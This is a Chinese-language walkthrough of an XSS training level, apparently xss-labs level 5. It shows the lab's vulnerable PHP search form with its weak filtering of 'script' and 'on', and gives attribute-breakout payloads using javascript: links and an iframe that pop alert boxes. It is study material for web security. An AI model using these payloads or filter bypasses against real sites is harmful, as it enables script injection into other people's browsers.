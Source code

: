 ****javascript伪协议****

```php
"> <a href="javascript:alert('YYDS')">狂点我</a>

其它
"> <iframe src="javascript:alert('YYDS')"></iframe>
```

代码摘要

```php
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level5.php method=GET>
<input name=keyword  value="'.$str3.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```

发现过滤了很多的on和script的一些东西

关于闭合什么的就不多说了

正常注入

```php
"> <a href="javascript:onclick=alert('redqx')">狂点我</a>
```

疑惑

```php
<input name=keyword  value=""> <a href="javascript:o_nclick=alert('redqx')">狂点我</a>">
<input type=submit name=submit value=搜索 />
```

为什么这个也可以弹窗呀

我的猜测: `onclick=alert('redqx')"` 意思就是变量(普通变量)的值就是函数`alert('redqx')` 

那么的话,我们也可以写 `"> <a href="javascript:redqx=alert('YYDS')">狂点我</a>`  于是有下面的代码

```php
<input name=keyword  value=""> <a href="javascript:redqx=alert('yyds')">狂点我</a>">
<input type=submit name=submit value=搜索 />
```

也可以实现弹窗

# level6

大小写绕过
